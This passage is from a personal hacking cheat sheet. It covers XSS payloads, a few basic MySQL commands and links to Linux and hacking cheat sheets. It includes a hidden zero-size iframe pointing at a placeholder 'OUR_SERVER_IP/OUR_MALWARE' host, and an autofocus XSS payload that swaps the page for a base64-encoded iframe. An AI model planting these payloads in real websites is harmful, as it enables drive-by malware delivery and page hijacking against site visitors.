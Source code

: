 <iframe src="http://OUR_SERVER_IP/OUR_MALWARE" height="0" width="0"></iframe>

### How to play Mario with XSS

<iframe src="https://jcw87.github.io/c2-smb1/" width="100%" height="600"></iframe>

<input onfocus="document.body.innerHTML=atob('PGlmcmFtZSBzcmM9Imh0dHBzOi8vamN3ODcuZ2l0aHViLmlvL2MyLXNtYjEvIiB3aWR0aD0iMTAwJSIgaGVpZ2h0PSI2MDAiPjwvaWZyYW1lPg==')" autofocus>

### XSS payloads

- [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [Seclist XSS](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS)

## MySql Cheat Sheet

```bash
mysql -u [username] -p; #connect, you will be asked for password
SHOW DATABASES;
use DB_NAME;
SHOW TABLES;
select * from TABLE;
```

[MySQL cheatsheet](https://devhints.io/mysql)

[MySQL Cheat Sheet](https://www.mysqltutorial.org/mysql-cheat-sheet.aspx)

# Misc

## Linux file permissions

![Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%202.png](Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%202.png)

## Linux Cheat Sheet

![Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%203.png](Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%203.png)

[](https://itblogr.com/wp-content/uploads/2020/04/The-Concise-Blue-Team-cheat-Sheets.pdf?fbclid=IwAR2lG6uxX3cMwu4G80Vwl_ZxpddwEPDqsyXb27yw5xjMOnAB1zX9ZEjDl78)

[Hacking Cheat Sheets](https://cheatography.com/tag/hacking/)

![Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%204.png](Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%204.png)

![Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%205.png](Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%205.png)

vi cheat sheet

![Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%206.png](Hacking%20Cheat%20Sheet%2053ddee9781a440ebb77926762047b8b3/Untitled%206.png)
